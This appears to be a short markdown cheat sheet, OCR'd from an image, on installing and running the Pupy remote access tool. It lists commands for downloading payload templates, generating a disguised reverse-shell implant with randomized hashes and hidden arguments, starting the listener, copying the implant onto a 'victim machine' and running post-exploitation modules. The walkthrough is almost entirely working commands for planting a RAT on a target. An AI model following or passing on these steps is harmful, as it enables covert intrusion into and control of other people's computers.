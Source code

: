 # Pupy
## Installing
````
git clone https://github.com/n1nj4sec/pupy
cd pupy
git submodule init 
git submodule update
cd pupy 
pip install -r requirements.txt
````
- Download templates
````
wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates && rm payload_templates.txz && rm -r payload_templates
````
- Create a RAT for Deployment
````
cd /path/to/pupy 
./pupygen.py -l | less -R
````
- `pupygen` with no arguments defaults to x86 Windows reverse payload on port 443
- `-f` specifies the type of payload we are generating 
- `-O` arfument can set the target operating system
````
./pupygen.py -f py -O linux -A x64 -s hide_argv,name=myRemoteAccess --randomize-hash
````
- Pupy will automatically include ip and port with the best guess if they are omitted from the implant generation command
## Set up the Server
````
./pupysh.py 
````
## Deploy the RAT
- Can place on the victim machine various ways 
````
scp ~/location-of-pupy-file username@10.10.10.10:/tmp
````
## Interactive
- Help can be accessed with command -h `netstat -h`
- List Modules 
````
list_modules
````
- To run a module use the `run` command 
````
run check_vm
````

